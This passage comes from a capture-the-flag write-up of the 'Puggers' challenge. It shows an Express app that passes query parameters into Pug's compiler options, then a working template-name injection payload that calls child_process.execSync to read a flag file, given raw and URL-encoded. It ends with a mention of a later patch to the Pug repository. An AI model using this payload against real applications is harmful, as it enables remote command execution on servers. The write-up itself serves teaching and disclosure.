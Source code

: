 
(for HACK@AC participants that want the writeup for Puggers)

### Challenge writeup

This is the source code for the challenge:

```javascript
const express = require("express")
const pug = require("./pug.js")
const runtimeWrap = require('pug-runtime/wrap');
const fs = require("fs")

const PORT = 3000

const app = express()

app.get("/", (req, res) => {
  const data = req.query
  const template = fs.readFileSync("./views/index.pug").toString()
  const out = runtimeWrap(pug.compileBody(template, data).body)(data)
  res.send(out)
})

app.listen(PORT, () => {
  console.log(`Server is running on port ${PORT}`)
})
```

`req.query` is passed to `compileBody` options, so the user can control the `options` parameter. Based on the above
analysis, this is the payload:

```javascript
template() { return global.process.mainModule.require("child_process").execSync("cat flag.txt").toString() } function asdf
```

URL encode it and set it as the `templateName` query parameter:

```
.../?templateName=template()%20%7B%20return%20global.process.mainModule.require(%22child_process%22).execSync(%22cat%20flag.txt%22).toString()%20%7D%20function%20asdf
```

`ACSI{pug_rc3_i5_n0t_p0ggers}`

---

OK back to the CVE!

# Post HACK@AC

A while after HACK@AC (it wasn't solved during the CTF), molangning managed to solve it!

He subsequently messaged me on Discord and asked me if he can open a PR on the Pug repo to implement checks on
`templateName` so that the exploit wouldn't work anymore. At that time, I didn't think this was a valid vulnerability as
I had to expose **unexported** functions to make the exploit work, but he was convinced it *was* a vuln. Anyway, no harm
patching it to be *extra*-safe right? So I gave him the go-ahead.
